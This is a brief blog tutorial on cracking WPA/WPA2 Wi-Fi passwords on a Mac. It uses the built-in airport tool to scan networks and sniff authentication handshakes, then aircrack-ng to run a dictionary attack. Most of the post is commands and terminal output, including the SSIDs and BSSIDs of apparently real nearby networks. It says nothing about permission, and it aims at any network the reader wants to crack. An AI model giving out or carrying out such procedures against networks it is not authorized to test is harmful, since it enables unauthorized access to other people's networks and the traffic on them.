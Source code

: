 ```yaml
---
layout: article
blogName: SunJK' Blog 
category: wifi
category_en: wifi
title: aircrack on mac
tags: icmp 
---
```

###  aircrack on mac with WPA/WPA2
* `airmon-ng` `airodump-ng` `aireplay-ng` don't work for mac<br>
* use `airport` on mac sniff authentication handshake<br>
* type `airport -s` on terminal, find channel of wifi which you wana crack
<pre>
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 TP-LINK_HyFi_16 08:57:00:b8:42:16 -83  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   ChinaNet-PjnC b4:41:7a:b8:0c:e9 -58  11      Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                       Cici_chen d0:c7:c0:1c:ac:60 -51  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          zdcnet 6c:e8:73:3a:2f:cc -88  6,+1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   TP-LINK_99999 20:dc:e6:3c:ff:6c -81  6       N  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       littlepig 00:23:cd:15:fd:2c -89  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        Tenda_XY c8:3a:35:4e:16:01 -64  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                   ChinaNet-6ecG b4:41:7a:b6:c1:5c -68  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 

</pre>

* type `sudo airport en0 sniff 1` to sniff authentication handshake.<br>
* download wifi crack dictionary , type `aircrack-ng -w wifi.txt authen.cap | grep 'handshake'`, find line which handshake count more than 0
<pre>
sunjk:wifi SunJK$ aircrack-ng -w wifi.txt a2.cap | grep 'handshake'
   1  80:71:7A:5A:C5:4C  HG532e-101                WPA (0 handshake)
   2  08:57:00:B8:73:92  TP-LINK_HyFi_16           WPA (1 handshake)
   5  D0:C7:C0:1C:AC:60  Cici_chen                 WPA (0 handshake)
   8  64:09:80:19:44:7F  DDD                       WPA (0 handshake)
</pre>
* type `aircrack-ng -w dic.txt authen.cap` , choose `Index number of target network ` that you found. 
* waiting for result.if you luck , you will get wifi password soon.

### External links:
_<http://www.aircrack-ng.org/doku.php?id=wpa_capture>_<br>
_<http://www.aircrack-ng.org/doku.php?id=cracking_wpa>_<br>
_<http://www.hsc.fr/ressources/articles/hakin9_wifi/hakin9_wifi_EN.pdf>_<br>

